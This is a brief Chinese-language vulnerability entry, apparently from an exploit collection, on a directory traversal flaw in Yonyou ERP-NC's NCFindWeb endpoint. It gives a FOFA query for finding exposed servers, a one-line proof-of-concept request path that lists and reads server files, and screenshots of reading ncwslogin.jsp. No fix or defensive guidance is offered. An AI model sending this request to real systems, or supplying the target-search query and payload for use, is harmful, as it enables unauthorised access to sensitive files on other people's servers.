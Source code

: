 # 用友 ERP-NC NCFindWeb 目录遍历漏洞

## 漏洞描述

用友ERP-NC 存在目录遍历漏洞，攻击者可以通过目录遍历获取敏感文件信息

## 漏洞影响

```
用友ERP-NC
```

## FOFA

```
app="用友-UFIDA-NC"
```

## 漏洞复现

POC为

```plain
/NCFindWeb?service=IPreAlertConfigService&filename=
```

![yongyou-8-1](https://typora-1308934770.cos.ap-beijing.myqcloud.com/yongyou-8-1.png)

查看 ncwslogin.jsp 文件

![yongyou-8-2](https://typora-1308934770.cos.ap-beijing.myqcloud.com/yongyou-8-2.png)